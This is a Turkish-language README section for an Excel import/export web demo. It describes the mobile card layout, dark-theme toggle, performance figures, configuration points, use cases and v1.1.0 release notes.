Dokuz sütunluk bir tablo 360 piksellik bir telefona sığmaz. Yaygın çözüm `overflow-x: auto` ile yatay kaydırmadır; bu depoda da bir süre öyleydi ve **iki somut sorun** üretti:

1. Ekrana yalnızca `#` ve `Foto` sütunları sığdığı için asıl veriyi (e-posta, maaş) görmek her satırda sağa kaydırıp geri gelmeyi gerektiriyordu.
2. **Karşılaştırma imkânsızdı:** iki kaydın maaşını aynı anda göremiyordunuz — oysa bir listeye bakmanın sebebi tam olarak budur.

Şimdi `767.98px` altında her `<tr>` bir **karta** dönüşür:

```
┌──────────────────────────────────────┐
│ [A]  Ayşe  ŞAHİN                 #61 │
│ ──────────────────────────────────── │
│ E-POSTA    ayse.sahin@ornek.com      │
│ DEPARTMAN  Pazarlama                 │
│ MAAŞ       55.300,00                 │
│ BAŞLAMA    06.09.2021                │
│ ──────────────────────────────────── │
│  [ 👁 ]      [ ✎ ]       [ 🗑 ]      │
└──────────────────────────────────────┘
```

### Etiketler nereden geliyor?

`<thead>` gizlendiğinde "Pazarlama" değerinin hangi sütuna ait olduğu kaybolur. CSS bunu her hücrenin soluna `data-label` değerini yazarak geri getirir:

```css
#user_data td::before {
    content: attr(data-label);
    width: 6.5rem;          /* sabit genişlik → değerler alt alta hizalanır */
}
```

`data-label` özniteliğini `app.js` içindeki `rowCallback` yerleştirir ve etiketleri **`<thead>`'den okur**:

```js
var COLUMN_LABELS = $('#user_data thead th').map(function () {
    return $(this).text().trim();
}).get();
```

Etiketler CSS'e elle yazılsaydı sütun listesi iki yerde dururdu; biri güncellenip diğeri unutulduğunda **mobil kullanıcı yanlış etiketi okurdu** ve hatanın masaüstünde hiçbir izi olmazdı. Bu haliyle `excel_columns()` → `<thead>` → mobil etiket zinciri tek kaynaktan beslenir.

### Neden DataTables'ın `responsive` eklentisi değil?

Eklenti ~40 KB JS/CSS getirir ve satırları açılır-kapanır hale sokar: veriyi görmek için yine bir dokunuş gerekir. Buradaki çözüm **hiçbir kütüphane eklemez** ve tüm alanlar ilk bakışta görünür — projenin "sıfır bağımlılık" duruşuyla da tutarlıdır.

### Gizli bir tuzak: satır içi genişlik

DataTables kurulumdan sonra tabloyu ölçer ve genişliğini `<table style="width: 1148px">` gibi **satır içi** bir stil olarak yazar. Satır içi stil, harici dosyadaki her kuralı yener; bu yüzden kart düzeni ilk denemede ekranın dışına taşıyordu. Çözüm dar ekranla sınırlı tutulur:

```css
@media (max-width: 767.98px) {
    #user_data { width: 100% !important; min-width: 0 !important; }
}
```

DataTables'ta `autoWidth: false` demek de işe yarardı, ama o ayar **masaüstü** tablosunun sütun genişliklerini de bozar. Sorun yalnızca dar ekranda olduğu için çözüm de yalnızca orada durur.

### Mobilde düzeltilen diğer noktalar

| Sorun | Çözüm |
|-------|-------|
| Araç çubuğu yatay kayıyor, **"İçe Aktar" düğmesi görünmüyordu** | İki satır: arama üstte tam genişlikte, üç düğme altta eşit paylı |
| 34 pikselik işlem ikonları parmakla ıskalanıyordu | Kart altında tam genişlik, **44 px** yükseklik (dokunma hedefi alt sınırı) |
| Modal ekranın ortasında sıkışıyor, kenarlarda kullanılamaz boşluk kalıyordu | `modal-fullscreen-sm-down` (içe aktarma sihirbazında `md-down`) |
| Modal butonları yan yana, "İptal" ile "Kaydet" birbirine çok yakındı | Alt alta ve tam genişlikte; **birincil eylem üstte** (`column-reverse`) |
| iOS Safari form alanına dokununca sayfayı büyütüp geri küçültmüyordu | Alanlarda `font-size: 16px` — bu davranışı kapatan tek anahtar |
| Bildirimler sağ üstte, tek elle ulaşılamayan köşede çıkıyordu | Ekranın altında, tam genişlikte, `env(safe-area-inset-bottom)` dolgusuyla |
| Sabit arka plan katmanı iOS'ta kaydırmayı takıyordu | Mobilde `background-attachment: scroll` |
| Telefon yan çevrilince modal ekranı taşırıyordu | `@media (orientation: landscape)` → gövde kendi içinde kayar |

---

## Koyu tema

Marka kalıbı (`cilginyazilim.css`) iki kaynağa birden bakar:

```css
@media (prefers-color-scheme: dark) { :root:not([data-cy-theme="light"]) { … } }
:root[data-cy-theme="dark"] { … }
```

Başlıktaki 🌙 / ☀ düğmesi **yalnızca `data-cy-theme` özniteliğini** değiştirir; tek bir renk değeri JavaScript'te tanımlı değildir. Üç durum vardır, iki değil:

| Öznitelik | Sonuç |
|-----------|-------|
| yok (varsayılan) | Sistem tercihine uyar; telefon akşam koyuya geçtiğinde sayfa da geçer |
| `data-cy-theme="dark"` | Her koşulda koyu |
| `data-cy-theme="light"` | Her koşulda açık |

Tercih `localStorage`'da saklanır ve **`<head>` içinde**, sayfa çizilmeden uygulanır. `app.js` sayfanın en altında yüklendiği için oraya konsaydı tarayıcı önce açık temayı çizer, sonra koyuya atlardı — kullanıcı her açılışta beyaz bir yanıp sönme görürdü. `localStorage` erişimi gizli sekmede istisna fırlattığı için okuma da yazma da `try/catch` içindedir.

---

## Performans (ölçülen)

| İşlem | Sonuç |
|-------|-------|
| 10.000 satırlık `.xlsx` okuma (`XlsxReader`, CLI) | **5,1 sn**, tepe bellek **8 MB** |
| 10.000 satırlık `.xlsx` üretme (`XlsxWriter`, CLI) | tepe bellek **18 MB**, dosya 313 KB |
| 1.900 satırlık içe aktarma önizlemesi (HTTP, uçtan uca) | **0,94 sn** |

Bellek düşüktür çünkü `XlsxReader` tüm belgeyi belleğe almaz: `XMLReader` ile imleç gibi ilerler ve yalnızca o anki satırı `SimpleXML`'e verir. İki yaklaşımın iyi yanı birleştirilmiştir — düşük bellek + okunaklı kod.

Varsayılan sınır 2.000 satırdır (`IMPORT_MAX_ROWS`). Sebebi: doğrulanmış satırlar onay adımına kadar oturumda tutulur. Daha büyük dosyalarla çalışacaksanız oturum yerine geçici bir tabloya yazın.

---

## Özelleştirme

| Ne | Nerede |
|----|--------|
| Veritabanı bilgileri | `system/config.local.php` (önerilen) veya ortam değişkenleri |
| Yükleme boyut sınırları | `config.php` → `UPLOAD_MAX_BYTES`, `IMPORT_MAX_BYTES` |
| Satır sınırı | `config.php` → `IMPORT_MAX_ROWS` |
| İzin verilen görsel türleri | `config.php` → `ALLOWED_IMAGE_TYPES` |
| Dışa aktarma dosya adı | `config.php` → `EXPORT_FILENAME_PREFIX` |
| Sütunlar (ekle/çıkar/yeniden adlandır) | `function.php` → `excel_columns()` |
| Başlık eş anlamlıları | `function.php` → `excel_header_aliases()` |
| Excel renkleri / stilleri | `XlsxWriter.php` → `stylesXml()` |
| Sayfaya özel görünüm | `assets/css/style.css` |
| Mobil kırılma noktası | `style.css` → `@media (max-width: 767.98px)` |
| Marka renkleri / koyu tema paleti | `cilginyazilim.css` → `:root` ve `[data-cy-theme]` blokları |
| Sürüm numarası | `config.php` → `APP_VERSION` (kart altbilgisinde görünür) |

> **`assets/css/cilginyazilim.css` dosyasına dokunmayın.** O, projeler arası ortak marka tasarım kalıbıdır; sayfaya özel her şey `style.css` içine yazılır.

---

## Örnek kullanım alanları

- **İK / personel listesi** — Bordro sisteminden gelen Excel'i toplu yükleme, güncel listeyi dışa aktarma (bu depodaki örnek tam olarak budur).
- **Ürün kataloğu** — Tedarikçinin gönderdiği fiyat listesini içe aktarma. `email` yerine `stok_kodu` anahtar yapılır: `excel_columns()` ve `UNIQUE` indeks değiştirilir, gerisi aynı kalır.
- **Öğrenci / not girişi** — Öğretmenin doldurduğu şablonu yükleme. Önizleme adımı burada kritiktir: yanlış sınıfın dosyası fark edilmeden kaydedilmez.
- **Muhasebe / cari hesap aktarımı** — `DECIMAL` kullanımı ve Türkçe sayı biçimi desteği doğrudan işe yarar.
- **Toplu e-posta listesi temizliği** — Geçersiz adresler önizlemede kırmızı görünür ve **aktarılmaz**; liste kirlenmez.
- **Periyodik veri senkronizasyonu** — "Değişmemiş satırı güncelleme" davranışı sayesinde aynı dosya her gün yüklenebilir; yalnızca gerçek değişiklikler yazılır.

---

## Sürüm notları

### v1.1.0

- **Mobil kart görünümü** — dokuz sütunluk tablo dar ekranda karta dönüşür; yatay kaydırma kalktı, sütun etiketleri `<thead>`'den otomatik üretilir.
- **Koyu tema anahtarı** — sistem tercihine uyar, kullanıcı seçimi `localStorage`'da kalıcıdır, sayfa açılışında yanıp sönme yoktur.
- **Dokunma hedefleri 44 px'e çıkarıldı**; modal'lar dar ekranda tam ekran açılır, butonlar alt alta ve tam genişliktedir.
- **iOS otomatik yakınlaştırma kapatıldı** (form alanlarında `font-size: 16px`).
- **Bildirimler ekranın altına alındı** ve güvenli alan (`safe-area-inset`) dolgusu eklendi.
- **`config.local.php` artık gerçekten okunuyor** — dosya depoda bir şablon olarak duruyordu ama `config.php` onu hiç dahil etmiyordu; parolasını oraya yazan herkes sessizce varsayılan bağlantı bilgileriyle çalışıyordu.
- `APP_DEBUG` ortam değişkeninden veya `config.local.php` içinden ayarlanabilir; `APP_VERSION` sabiti eklendi ve kart altbilgisinde gösteriliyor.
- `.gitignore` deseni `system/config.local.*` olarak genişletildi: yanına konan her kopya varsayılan olarak gizli kalır.

### v1.0.0

- Sıfır bağımlılıklı `.xlsx` okuma/yazma, önizlemeli içe aktarma, sunucu taraflı DataTables, güvenlik katmanları.

---

## Lisans

MIT — dilediğiniz gibi indirip kullanabilirsiniz.
Telif: **Çılgın Yazılım** ([cilginyazilim.com](https://cilginyazilim.com))

Katkı için depoyu çatallayın ve pull request gönderin:
[github.com/CilginYazilim/excel-import-export](https://github.com/CilginYazilim/excel-import-export)

---

<div align="center">

### Daha fazla örnek kod

**[📚 cilginyazilim.com/kutuphane](https://cilginyazilim.com/kutuphane)**

Bu örneğin adım adım anlatımı:
**[Excel İçe / Dışa Aktarma](https://cilginyazilim.com/kutuphane/excel-ice-disa-aktarma)**

</div>
